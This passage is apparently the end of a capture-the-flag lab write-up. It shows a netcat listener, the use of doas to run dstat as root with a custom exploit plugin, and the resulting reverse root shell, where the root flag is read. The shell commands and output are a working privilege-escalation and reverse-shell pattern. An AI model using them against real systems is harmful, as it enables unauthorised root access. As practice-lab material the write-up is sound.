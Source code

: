 Prepare is done, run listen `nc -nlvp 9001 ` and run command as root from player user.

```sh
$/usr/local/bin/doas -u root /usr/bin/dstat --exploit
```

Rooted

```sh
nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.55] from (UNKNOWN) [10.10.11.194] 33450
# whoami
root
# ls
# pwd
/usr/local/share/dstat
# cd /root
# ls
app  root.txt  run.sql  snap
# cat root.txt
cat root.txt
c1****************************0d

```


